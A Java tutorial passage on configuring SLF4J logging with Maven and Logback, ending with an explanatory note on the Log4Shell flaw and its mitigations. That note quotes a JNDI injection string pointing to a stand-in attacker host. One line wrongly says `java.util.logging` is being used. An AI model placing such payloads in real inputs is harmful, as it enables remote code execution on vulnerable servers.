


Let’s jump straight into a logging example, starting with the initial setup of our application. Since our project uses Maven as the dependency manager, we’ll introduce and explain the required dependencies as they become relevant.

pom.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
 
    <groupId>com.jcg</groupId>
    <artifactId>slf4j</artifactId>
    <version>1.0-SNAPSHOT</version>
 
    <dependencies>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.25</version>
        </dependency>
    </dependencies>
 
    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.6.1</version>
                <configuration>
                    <source>1.8</source>
                    <target>1.8</target>
                </configuration>
            </plugin>
        </plugins>
    </build>
 
</project>

```

- We specify slf4j-api as dependency, maven downloads the SLF4J dependency in our classpath to enable the logging interface.
- Single SLF4J dependency is enough for us to get started with logging. Now we will create a simple class for logging.

```java
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import java.lang.invoke.MethodHandles;
import java.util.stream.IntStream;
public class LoggerRoot {
    private static final Logger logger = LoggerFactory.getLogger(MethodHandles.lookup().lookupClass().getSimpleName());

    public static void main(String... args) {
        IntStream.rangeClosed(1, 10).forEach(counter -> {
            logger.info("Counter:" + counter);
        });

    }

}
```

We import **Logger** and **LoggerFactory** from SLF4J for logging purposes. The **LoggerFactory** provides factory methods to create and initialize loggers appropriate for the application’s use case. The logger returned by the factory is then used to log messages in the application.

In the provided example, we use the **LoggerFactory.getLogger()** method to initialize the logger. This method requires a name for the logger, which is typically the class name where the logger is used. Instead of hardcoding the class name, we use the **Java Core API's `MethodHandles.lookup()`** to dynamically retrieve the current class name. This approach ensures accuracy and avoids the need to manually specify the class name, reducing the risk of errors when copying and pasting code across different classes.

The expression `MethodHandles.lookup().lookupClass().getSimpleName()` retrieves the simple name of the current class dynamically. This is an improvement over manually specifying `LoggerRoot.class.getName()`, as it eliminates the possibility of mismatched logger names if the class name changes or if the code is reused in other classes.



Now we will provide a logging framework implementation. We will use first `java.util.logging`. To enable this, We need to include it as a dependency.

```xml
<dependency>
	<groupId>ch.qos.logback</groupId>
	<artifactId>logback-classic</artifactId>
	<version>1.3.0-alpha4</version>
	<exclusions>
		<exclusion>
			<artifactId>slf4j-api</artifactId>
			<groupId>org.slf4j</groupId>
		</exclusion>
	</exclusions>
</dependency>
<dependency>
	<groupId>ch.qos.logback</groupId>
	<artifactId>logback-core</artifactId>
	<version>1.3.0-alpha4</version>
</dependency>

```

We have defined logback as the runtime dependency. SLF4J will pick up logback as the logging implementation. We will add the `logback configuration` to log the output to the console.

```xml
<configuration>
 
    <appender name="console" class="ch.qos.logback.core.ConsoleAppender">
        <target>System.out</target>
        <encoder>
            <pattern>%d{HH:mm:ss.SSS} [%thread] %-5level %logger{36} - %msg%n</pattern>
        </encoder>
    </appender>
    <root level="info">
        <appender-ref ref="console"/>
    </root>
 
</configuration>

```

- We create a console appender with the target as System.Out.
- W use PatternLayoutEncoder and provide a pattern containing the class name and logger name.
- We specify the level as INFO and tie the appender to root logger.




Note:

The **Log4j vulnerability (Log4Shell)**, identified as **CVE-2021-44228**, was a critical security flaw in the Apache Log4j library, allowing **Remote Code Execution (RCE)**. It exploited the **JNDI lookup feature**, where attackers could inject malicious strings like `${jndi:ldap://attacker.com/a}` into logs, prompting Log4j to fetch and execute code from external servers. This made applications using vulnerable Log4j versions (2.0 to 2.14.1) highly susceptible to attacks through user-controlled inputs.

To mitigate, the Log4j team released updates to disable and eventually remove JNDI lookups in versions 2.15.0, 2.16.0, and later. Immediate workarounds included disabling lookups with `-Dlog4j2.formatMsgNoLookups=true` or removing the `JndiLookup` class. This incident highlighted the importance of secure logging practices, timely dependency updates, and proactive vulnerability management.

**Logback** is another popular Java-based logging framework, developed by the same creator as Log4j. It serves as the successor to Log4j 1.x and is widely used in modern applications, especially with the **SLF4J** (Simple Logging Facade for Java) API. Here's how it compares to Log4j and its security implications: